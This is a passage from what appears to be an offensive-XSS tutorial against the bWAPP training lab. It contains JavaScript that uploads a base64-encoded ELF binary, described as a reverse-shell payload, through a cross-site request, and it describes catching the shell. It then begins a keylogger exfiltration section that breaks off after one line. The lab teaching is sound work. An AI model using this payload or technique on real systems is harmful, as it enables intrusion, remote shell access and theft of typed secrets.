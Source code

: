 ```
    var byteArrays = new Array(slicesCount);

    for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
            bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
    }
    return new Blob(byteArrays, { type: contentType });
}


var b64file = "f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKiRhGgCACK4ieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsiSwA82AhcB4Av/huAEAAAC7AQAAAM2A";

var content_type = 'application/x-executable';
var blob = base64toBlob(b64file, content_type);

var formData = new FormData();
formData.append('file', blob,'file.elf');
formData.append('MAX_FILE_SIZE', 10);
formData.append('form','Upload');

var urlOfThePage = window.location.protocol + "//" + window.location.host
var url = urlOfThePage + '/bWAPP/unrestricted_file_upload.php';
xhr = new XMLHttpRequest();
xhr.open('POST', url);
xhr.withCredentials = "true";

xhr.send(formData);
```
<br>
We can use the same script as in the previous file upload case. We need to add a special base64 to the blob converter, and our payload will be in base64. Checking the machine we can see that our payload this time named file.elf, and is in /var/www/bWAPP/images. Creating a listener and executing the file manually to see if our upload was successful. Executing the file will show that we got our reverse shell. We can now upload different types of files with xss.
<br>
![](/img/OffensiveXSS2/getShell.PNG)
<br>
<h3>Keylogger</h3>
Let's do a simple keylogger. The scenario is, we are on a ctf where we can do an xss and there is an admin account that types the flag somewhere every x minutes. We need that flag. So obviously we will need a script to capture and send the keys to us and we will also need to upgrade the server to capture the keys. This will be a little different then the previous capture scripts, as this needs to run continuously and report back every few characters.
<br>
```
var keys = "";         
```